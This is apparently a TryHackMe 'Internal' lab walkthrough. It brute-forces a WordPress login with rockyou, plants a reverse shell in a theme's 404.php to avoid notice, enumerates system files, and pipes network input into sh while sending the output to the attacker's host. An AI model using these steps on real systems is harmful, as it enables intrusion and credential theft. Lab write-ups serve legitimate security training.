



*2021-09-04*

*kimm3*

# Walkthrough: Internal
Platform: TryHackMe

Difficulty: Hard

- [Link](https://tryhackme.com/room/internal)


## Setup


```
script history/enum1
export IP=10.10.65.102
```
## Scans and enumeration
`threader3000`


Two open ports, ssh and http. Seems to be apache on a ubuntu machine.


Not much to go on here, let's go dir-searching.

`dirsearch -u 10.10.93.23 -e toools/webext.txt -o scans/dirs-init --format=md`


So we have a wordpress site and phpmyadmin exposed.

Blog index:


Admin/password does not work, however the user admin exists.


Wp-scan dosen't say much, it basically just confirms that the admin user exists.


Default credentials not working for phpmyadmin.

Trying to brute wp-login, since no other obvious exploits.

`wpscan --password-attack "wp-login" --url "http://internal.thm/blog/" -U user.txt -P sl/Passwords/Leaked-Databases/rockyou.txt`


Success.

## Foothold/Exploit
(There was some credentials in a hidden post, viewable by admin, didn't lead anywhere.)

We can upload or edit php files to create reverse shell.


Server not allowed to write to theme folder?

The problem with editing a file that's in use is that it will be noticeable by users, if we edited the index.php, it wouldn't load for anyone and revshell would be triggered every time someone requested it.

Im going to edit the 404.php page, which will usually load when we enter a url that dosen't exist, this will make it not super obvious at least, it just won't load.


We have the url path from the wp-scan.

`curl "http://internal.thm/wordpress/wp-content/themes/twentyseventeen/404.php"`

```
nc -lvnp 443
SHELL=/bin/bash script -q /dev/null
[CTRL+Z]
stty raw -echo; fg
```

`curl "http://internal.thm/wordpress/wp-content/themes/twentyseventeen/404.php"`


We land a shell as www-data.

```
id # user and groups
cat /etc/passwd # looking for users
ls -l /etc/shadow # looking at perms
find / -perm -4000 -exec ls -ldb {} \; 2>/dev/null # setuid files
find / -perm -2000 -exec ls -ldb {} \; 2>/dev/null # setgid files
ls -la /var/www/html/ # checking write perms
```

We don't have access to user(aubreanna) home folder, and no write perms in www folder.

I would like to run linpeas. We could do it in memory and outputing to netcat.

`nc -l 10.10.204.170 -p 8080 | sh | nc 10.8.210.115 1234`

To make sure it's running, you can view the transfer with `tcpdump -nnvv port 1234 -i tun0` or just view the output as it writes, `tail -f scans/linpeas.txt`.

The credentials to connect to the database is 'wordpress'  with password 'wordpress123', works to login to phpmyadmin.


There's an sudo [exploit](https://www.exploit-db.com/exploits/18436) for our version, but doubt it will work since we need permissions to run chown, which we don't.

More enumeration, manually checking folders:

- tmp
- var
- srv
- media
- opt


Credentials found.



'user.txt' aquired.

aubreanna dosen't have sudo privs. We saw from linpeas output that ssh allowed password authentication.


Now we can continue doing things encrypted.


We can see in linpeas and elsewhere that docker is running, and port 8080 is redirected there.



We don't get any banner when using nc to the dockerfile. Since it's port 8080, let's redirect that to our machine and try with a web browser.

`ssh -L 8080:localhost:8080 aubreanna@10.10.204.170`


Too obvious for me, found this in aubreanna home folder:


Brute forcing this with hydra was a bit above my skill level because of crumbs, but using zap worked. Capture a request and fuzz the password with a wordlist. A smaller repsonse header reveals correct password.





## Privilege Escalation
Logging in we can execute commands via the script console using java/groovy syntax.


You could set up docker to have permissions on local disks, but this didn't. Have a look in `/etc/mtab` as well.


We have access to our host so we could start a revshell for easier enumeration.

Used [this](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#groovy) groovy script.


Once again, the opt folder is the way to go. Let's try these at the internal machine.


Works.
